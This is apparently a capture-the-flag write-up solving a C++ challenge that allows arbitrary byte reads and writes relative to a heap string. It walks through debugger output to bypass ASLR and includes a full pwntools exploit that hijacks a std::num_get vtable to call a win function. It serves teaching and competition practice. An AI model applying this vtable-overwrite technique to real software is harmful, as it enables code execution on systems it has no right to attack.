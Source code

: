 # Heap Poke and Peek &mdash; Solution

This is a similar challenge to [Poke And Peak](https://github.com/blockhousetech/TBTL-CTF/tree/master/2023/Pwn/poke_and_peek) from last year. This time, however, the string has to be longer and its data will be allocated on heap.

The C++ binary allows the user to read and write bytes at an arbitrary 32-bit offset from the data stored in a `std::string`.

```c
 ...
    getline(cin, line);
    istringstream iss(line);
    string command;
    iss >> command;
    if (command == POKE_CMD) {
      int x, y;
      if (!(iss >> x >> y)) {
        cout << HELP.at(POKE_CMD) << endl;
        continue ;
      }
      s[x] = char(y);
    } else if (command == PEEK_CMD) {
      int x;
      if (!(iss >> x)) {
        cout << HELP.at(PEEK_CMD) << endl;
        continue ;
      }
      cout << int(s[x]) << endl;
    }
...
```

The general exploit idea is simple, we need to find a function pointer in the nearby memory, overwrite it with the address of the conveniently provided `win` function and trigger the function pointer.

We start the process by figuring out where is our `std::string` payload stored in the programs memory. Entering the `tbtltbtltbtltbtltbtltbtltbtltbtl` as the input and investigating with the debugger reveals that the payload is stored on the heap as expected. Since `getline` discards the newline character, the first string is our payload.

```bash
gef➤  grep tbtltbtltbtltbtltbtltbtltbtltbtl
[+] Searching 'tbtltbtltbtltbtltbtltbtltbtltbtl' in memory
[+] In '[heap]'(0x559604407000-0x559604428000), permission=rw-
  0x559604418e90 - 0x559604418eb0  →   "tbtltbtltbtltbtltbtltbtltbtltbtl"
  0x5596044194e0 - 0x559604419502  →   "tbtltbtltbtltbtltbtltbtltbtltbtl\n"
```

We now examine the memory map of the process, and discover that the stack is too far away to be overwriten by a 32-bit offset. Hence, we either need to find a function pointer to overwrite on the heap or in the nearby data segment.

```bash
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00559604200000 0x00559604206000 0x00000000000000 r-x /src/chall
0x00559604405000 0x00559604406000 0x00000000005000 r-- /src/chall
0x00559604406000 0x00559604407000 0x00000000006000 rw- /src/chall
0x00559604407000 0x00559604428000 0x00000000000000 rw- [heap]
0x007f4458fa2000 0x007f445913f000 0x00000000000000 r-x /lib/x86_64-linux-gnu/libm-2.27.so
...
0x007f4459efc000 0x007f4459efd000 0x0000000002a000 rw- /lib/x86_64-linux-gnu/ld-2.27.so
0x007f4459efd000 0x007f4459efe000 0x00000000000000 rw-
0x007ffda6f6e000 0x007ffda6f8f000 0x00000000000000 rw- [stack]
0x007ffda6faf000 0x007ffda6fb3000 0x00000000000000 r-- [vvar]
0x007ffda6fb3000 0x007ffda6fb5000 0x00000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x00000000000000 --x [vsyscall]
```

Quick search finds no suitable function pointers on the heap, but plenty in the data segment. The model solution will overwrite the sequence of pointers from `std::cout` to the virtual table of the `std::num_get` class, and point them to a newly built virtual table (where, of course, all entries point to the `win` function). The `std::num_get` class is used when parsing numeric values and can, therefore, be easily triggered by issuing `poke` comamnds.

```bash
0x00559604406000│+0x0000: <data_start+0> add BYTE PTR [rax], al
0x00559604406008│+0x0008: 0x00559604406008  →  [loop detected]
0x00559604406010│+0x0010: 0x007f44599db210  →  <__gxx_personality_v0+0> push r15
0x00559604406018│+0x0018:  add BYTE PTR [rax], al
0x00559604406020│+0x0020: 0x007f4459cc9960  →  0x007f4459a5b8f0  →  <std::basic_ostream<char,+0> mov rax, QWORD PTR [rip+0x26fa31]        # 0x7f4459ccb328
0x00559604406028│+0x0028: 0x007f4459cc9988  →  0x007f4459a5b920  →  <virtual+0> mov rax, QWORD PTR [rdi]
0x00559604406030│+0x0030: <std::cout@@GLIBCXX_3.4+16> (bad)
0x00559604406038│+0x0038: <std::cout@@GLIBCXX_3.4+24> add BYTE PTR [rax], al
...
0x00559604406118│+0x0118: 0x007f4459cd00c0  →  0x007f4459cc57b0  →  0x007f4459a01b10  →  <std::ctype<char>::~ctype()+0> mov rax, QWORD PTR [rip+0x2ca059]        # 0x7f4459ccbb70
0x00559604406120│+0x0120: 0x007f4459cd0050  →  0x007f4459cc93c8  →  0x007f4459a4a420  →  <std::num_put<char,+0> mov rax, QWORD PTR [rip+0x280f49]        # 0x7f4459ccb370
0x00559604406128│+0x0128: 0x007f4459cd0060  →  0x007f4459cc9350  →  0x007f4459a4a400  →  <std::num_get<char,+0> mov rax, QWORD PTR [rip+0x280bf1]        # 0x7f4459ccaff8
```

Since [ASLR](https://ctf101.org/binary-exploitation/address-space-layout-randomization/) is used, the offset between our payload and the data segment is not fixed, and several steps are needed before we can overwrite the pointers.
* We read the heap start address at a fixed offset (`0x58`) from the payload and use it to calculate the exact address of the payload.
* We read an address from the data segment at a fixed offset (`0xb8`) from the payload and combine it with the payload address to find the offset to the data segment.

```bash
gef➤  telescope 0x559604418e90 -l 0x100
0x00559604418e90│+0x0000: "tbtltbtltbtltbtltbtltbtltbtltbtl"
0x00559604418e98│+0x0008: "tbtltbtltbtltbtltbtltbtl"
0x00559604418ea0│+0x0010: "tbtltbtltbtltbtl"
0x00559604418ea8│+0x0018: "tbtltbtl"
0x00559604418eb0│+0x0020: 0x6f2065756c617600
0x00559604418eb8│+0x0028: "f character at index a"
0x00559604418ec0│+0x0030: "ter at index a"
0x00559604418ec8│+0x0038: 0x0061207865646e ("ndex a"?)
0x00559604418ed0│+0x0040: 0x0000000000000000
0x00559604418ed8│+0x0048: 0x00000000000061 ("a"?)
0x00559604418ee0│+0x0050: 0x0000000000000000
0x00559604418ee8│+0x0058: 0x00559604407010  →  0x0000000100000100
0x00559604418ef0│+0x0060: " <integer b>: changes character at index a to asci[...]"
...
0x00559604418f28│+0x0098: 0x00000000622065 ("e b"?)
0x00559604418f30│+0x00a0: 0x0000000000000000
0x00559604418f38│+0x00a8: 0x00000000000071 ("q"?)
0x00559604418f40│+0x00b0: 0x0000000000000001
0x00559604418f48│+0x00b8: 0x00559604406368  →  <HELP+8> add BYTE PTR [rax], al
0x00559604418f50│+0x00c0: 0x0000000000000000
0x00559604418f58│+0x00c8: 0x00559604419000  →  0x0000000000000000
0x00559604418f60│+0x00d0: 0x00559604418f70  →  0x0000006b656570 ("peek"?)
0x00559604418f68│+0x00d8: 0x0000000000000004
...

```

Putting it all together:
```python
#!/usr/bin/env python3

from pwn import *

def conn():
    context.update(arch='amd64', os='linux', terminal=['tmux', 'new-window'])
    if args.REMOTE:
        p = remote('0.cloud.chals.io', 12348)
    else:
        p = process('./chall')
        gdb.attach(p, '''
          continue
        ''')
    return p

def poke(p, x, y):
    p.sendlineafter(b':\n', 'poke {} {}'.format(x, y).encode())

def peek(p, x):
    p.sendlineafter(b':\n', 'peek {}'.format(x).encode())
    return int(p.recvline())

def peekq(p, x):
    b = [(peek(p, x+i)+256)%256 for i in range(8)]
    return unpack(bytes(b))

def pokeq(p, x, y):
    for i, c in enumerate(pack(y)):
        poke(p, x+i, c)

p = conn()
str_payload = b'tbtltbtltbtltbtltbtltbtltbtltbtl'
p.sendlineafter(b':', str_payload)

# Find the address of the payload
heap_offset = 0x58
heap_addr = peekq(p, heap_offset)
str_addr = heap_addr + 0x11e80
print('str_addr          ={:016x}'.format(str_addr))

# Find the data_start address
help_start_offset = 0xb8
help_addr = peekq(p, help_start_offset)
data_start_addr = help_addr-0x368
data_start_offset = data_start_addr-str_addr
print('data_start_addr   ={:016x}'.format(data_start_addr))

# Build a dummy vtable
win_addr = data_start_addr - 0x2047e6
ptr1 = data_start_addr + 0x400
ptr1_offset = data_start_offset + 0x400
for i in range(0x4):
    pokeq(p, ptr1_offset+i*8, win_addr)

# Overwrite num_get pointers to the dummy vtable
t_numget_offset = data_start_offset + 0x120
ptr2 = data_start_addr + 0x480
ptr2_offset = data_start_offset+ 0x480
pokeq(p, ptr2_offset, ptr1)
pokeq(p, t_numget_offset, ptr2)

# Trigger the win function
p.sendlineafter(b':', b'peek 0')

p.interactive()
```
